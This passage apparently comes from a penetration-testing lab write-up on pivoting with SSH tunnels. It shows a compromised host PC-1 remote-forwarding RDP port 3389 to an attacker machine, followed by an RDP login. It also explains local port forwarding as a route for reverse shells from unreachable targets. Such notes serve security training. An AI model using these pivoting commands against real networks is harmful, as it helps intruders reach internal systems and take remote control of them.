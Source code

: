 ##### Remote Port Forwarding 3389 to our attacker's machine by executing this command at the compromised machine `PC-1`:

```powershell
C:\> ssh tunneluser@<attacker-ip> -R <local-port>:<remote-IP>:<remote-port> -N
```

```powershell
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

	Breakdown:
	- "tunneluser" : is the user created in the AttackBox to SSH tunnel to the unreachable server through the PC-1 machine proxy.
	- "-N" : Since the "tunneluser" isn't allowed to run a shell on the Attacker PC, we need to run the "SSH" command with the "-N" switch to prevent the client from requesting one, or the connection will exit immediately.
	- "-R" : used to request a remote port forward and the syntax requires us first to indicate the port we will be opening at the SSH server (3389), followed by a colon and then the IP and port of the socket we'll be forwarding (3.3.3.3:3389)

**Note**: The port numbers do NOT need to match, although they do in this example.

- The command itself won't output anything, but the tunnel will depend on the command to be running.
- Whenever we want, we can close the tunnel by pressing `CTRL+C` as with any other command.

##### RDP-ing into the forwarded port in order to reach the Target Server:
- Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

```bash
munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```


### SSH Local Port Forwarding

- **Local Port Forwarding** allows us to "`pull`" a port from an SSH server into the SSH client.
- In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on `PC-1`.
- That way, any host(`target`) that can't **connect-back** directly to the attacker's PC but can connect to `PC-1` will now be able to reach the attacker's services through the pivot host.


- Using this type of port forwarding would allow us to run **reverse shells** from hosts (`target`) that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<u>Modelling</u>:

![](/assets/img/Pasted image 20230209154702.png)

	- Notice that the target server and PC-1 machine does a reverse connection relative to the PC-1 machine(proxy) instead of a bind connection like in Remote Host Forwarding.
	- Now, Remote Host Forwarding == Bind connection ; Local Port Forwarding == Reverse Connection
	- Both relative to the Proxy/Pivot machine
